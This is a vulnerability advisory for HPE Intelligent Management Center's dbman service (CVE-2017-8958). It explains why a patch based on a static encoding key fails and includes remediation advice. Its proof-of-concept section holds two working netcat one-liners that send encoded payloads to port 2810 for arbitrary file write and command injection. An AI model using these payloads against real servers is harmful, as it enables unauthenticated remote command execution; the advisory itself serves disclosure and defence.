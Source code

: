 # HPE Intelligent Management Center dbman Multiple Vulnerabilities (CVE-2017-8958)

## Advisory

https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-hpesbhf03786en_us

## Affected Vendor:

Hewlett Packard Enterprise

## Affected Components:

dbman in HPE IMC version 7.3 E0504P04

## Vulnerability Details:

On May 15th 2017, HPE released two security bulletins announcing 8 CVEs in Intelligent Management Center:

https://h20564.www2.hpe.com/hpsc/doc/public/display?docId=emr_na-hpesbhf03745en_us (CVE-2017-5816, CVE-2017-5817, CVE-2017-5818, CVE-2017-5819)
https://h20564.www2.hpe.com/hpsc/doc/public/display?docId=emr_na-hpesbhf03746en_us (CVE-2017-5820, CVE-2017-5821, CVE-2017-5822, CVE-2017-5823)

These vulnerabilities were disclosed by a researcher through ZDI who disclosed the problem location:
the dbman service. The vulnerabilities include command injection, arbitrary file write, and 
arbitrary file deletion. The commands and the corresponding vulnerabilities are as follows:

  - FileTrans (opcode 10010) - arbitrary file write vulnerability
  - DbaToimcUser (opcode 10013) - command injection vulnerability
  - RestartDB (opcode 10008) - command injection vulnerability
  - RestoreDBase (opcode 10007) 
    - 2 command injection vulnerabilities (one for MySQL databases, one for SQL server) and an 
        arbitrary file deletion vulnerability
  - RestoreZipFile (opcode 10006) - command injection vulnerability
  - BackupZipFile (opcode 10004) - command injection vulnerability

They were patched in IMC version 7.3 E0504P04. However, the patch is insufficient. The patch attempts 
to fix the problem by encoding or encrypting the ASN.1 messages using `dbman_encode_len()`. Then 
when the service receives a command, it attempts to decode it using `dbman_decode_len()`. The encoding
and decoding appears to occur with a static key or seed derived from the string "liuan814". The 
consequence of this is encoded commands being accepted by any installation of IMC 7.3 E0504P04. An 
attacker just needs to encode their malicious payload once and then they will be able to exploit any IMC 
server running the latest, fully patched version. Thus the encoding protection is insufficient and all 
of the above commands are vulnerable.

As to how an attacker could encode their payload, they can patch the decoding to encode instead. 
Since `dbman_decode_len()` and `dbman_encode_len()` take the same number of arguments and the former is 
essentially an unwinding of the latter, you could easily substitute a function call to `dbman_decode_len()`
with a function call to `dbman_encode_len()`. Instead of failing to decode an unencoded command, the program 
will instead encode it. Afterwards you can retrieve from memory the encoded payload in the result buffer. 
This payload is valid and can be successfully decoded.

The impact of the vulnerabilities is remote, unauthenticated command execution as SYSTEM or root.

## Remediation:

An authentication mechanism needs to be implemented to protect the dbman service. Additionally, any parameters 
that are used in an executed command must be sanitized.

## Proof of Concept:

Two proof-of-concepts have been provided to demonstrate the insufficient protection provided by the patch.
To run it, first set the IMC_SERVER environment variable to the IP address of a running, fully patched 
IMC server installed on Windows (version 7.3 E0504P04):
```
export IMC_SERVER=<IP_ADDRESS>
```
Then run the following commands to demonstrate the vulnerabilities:

### FileTrans
``` 
echo '0000271A00000020B344547B3D86892F8CFF9E66FC27620CE42491328BC720525399A5549DF50B7274657374' | xxd -r -p | nc $IMC_SERVER 2810
```
Result: File "C:\proof_of_concept" created with contents "test"

### BackupZipFile
```
echo '00002714000000B8E4588B59BDBFA76A6BCD049D9561DFF5ABBEEF6F5399331FEA4BF954145A18F8B1C2D1B3822433BF7B4830B86593B689E9ABE760FE2D3195E42491328BC72052F7E6C3BE52BA0F1C770B293DB324DF7306C148CE122D9808A3E6BF4168FFA7A560650CCB9BAE262DFF77BBC28288AF6D008CB77E853D4644CE37611765ED3185CB33967192063BA698204AACF947D927D7ECB6AC2E8B52B771B1ADE31A00DC7B10E46EB4C0A00D9BC71817A6E7DC90A4A8AC627CAD224981' | xxd -r -p | nc $IMC_SERVER 2810
```
Results: 
  - Command injected: "echo test-BackupZipFile >> C:\proof_of_concept & " (in sqlScript field)
  - Command executed: "cmd.exe /c echo test-BackupZipFile >> C:\proof_of_concept & "test3" test1 test7 test5 >"C:\Program Files\iMC\dbman\bin\dbop.sql.log" 2>&1"
  - The file "proof_of_concept" appears in the root directory of the C drive with the contents "test-BackupZipFile"
